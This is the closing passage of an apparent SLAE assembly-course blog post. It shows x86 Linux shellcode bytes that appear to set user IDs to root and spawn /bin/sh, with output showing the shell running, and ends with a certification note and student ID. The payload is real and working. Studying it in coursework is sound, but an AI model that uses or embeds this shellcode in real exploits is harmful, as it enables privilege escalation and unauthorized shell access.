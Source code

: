 ```c
\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00\x00\x00\x00
[+] Shellcode executing ...
$

```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-3763